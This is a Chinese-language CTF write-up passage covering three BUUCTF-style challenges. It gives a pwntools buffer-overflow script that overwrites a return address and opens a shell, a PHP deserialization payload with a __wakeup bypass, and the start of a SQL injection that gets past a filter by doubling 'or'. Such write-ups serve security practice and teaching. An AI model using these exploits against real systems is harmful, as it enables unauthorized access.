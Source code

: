```python
from pwn import *
r = remote('node3.buuoj.cn',25394) 
payload = 'a'*20+'b'*4+p32(0x08048F13).decode('latin')
r.sendline(payload)
r.interactive()
```
## 参考

https://www.cnblogs.com/wrnan/p/12811009.html


## Web

### [极客大挑战 2019]PHP

ctf-scan扫到www.zip得到源码, 分析，反序列化

```php
<?php
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
$b = serialize($a);
echo $b;
```

需要绕过wakeup
```
O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}  属性数大于实际数就会绕过wakeup，name后面大于2就行
O:4:"Name":3:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}
```
由于 private 会输出 ASCII 码为 0 的字符(不可见字符),(Sublime输出php时能看出来)，自己补一下。

payload: `?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}`


### [极客大挑战 2019]BabySQL

1.获取字段长

1' or 1=1 # 显示ERROER
但是仔细观察报错语句，似乎没有看到or

猜测后端使用replace()函数过滤，尝试双写or：1' oorr 1=1 #正常回显，看来我们猜测的不错。
